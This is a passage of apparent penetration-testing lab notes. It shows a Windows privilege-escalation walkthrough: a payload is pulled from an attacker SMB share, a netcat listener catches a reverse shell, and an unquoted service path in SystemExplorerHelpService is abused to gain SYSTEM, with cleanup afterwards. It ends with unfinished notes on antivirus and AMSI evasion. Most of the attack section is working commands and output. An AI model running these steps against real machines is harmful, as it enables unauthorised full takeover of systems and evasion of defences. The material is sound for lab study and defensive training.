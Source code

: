 ```shell
#authenticates SMB server using creds

copy \\10.50.82.104\share\Wrapper.exe %TEMP%\wrapper-sv.exe
#copy exploit to target
#file copied to current user's temp directory

net use \\10.50.82.104\share /del
#disconnect from smb server

#on attacker machine
#start listener
nc -nvlp 4444

#in reverse-shell, execute exploit
"%TEMP%\wrapper-sv.exe"

#this works, we get reverse-shell on listener

#we can now move our exploit to the unquoted path
copy %TEMP%\wrapper-sv.exe "C:\Program Files (x86)\System Explorer\System.exe"

#stop and restart listener in attacker machine
nc -nvlp 4444

#in victim reverse-shell
sc stop SystemExplorerHelpService
#stops the service

sc start SystemExplorerHelpService
#this does not start the service properly
#we get reverse shell on our second listener

whoami
#nt authority\system

#in victim reverse-shell
#cleanup files
del "C:\Program Files (x86)\System Explorer\System.exe"

sc start SystemExplorerHelpService
#we still have our shell
```

* Types of AV evasion:

  * On-disk evasion - try to get file saved on target, then executed.

  * In-memory evasion - try to import script directly into memory and execute it there.

* AMSI (Anti-Malware Scan Interface) scans scripts as they enter memory, thus making in-memory evasion.

* Types of detection methods used by AV:
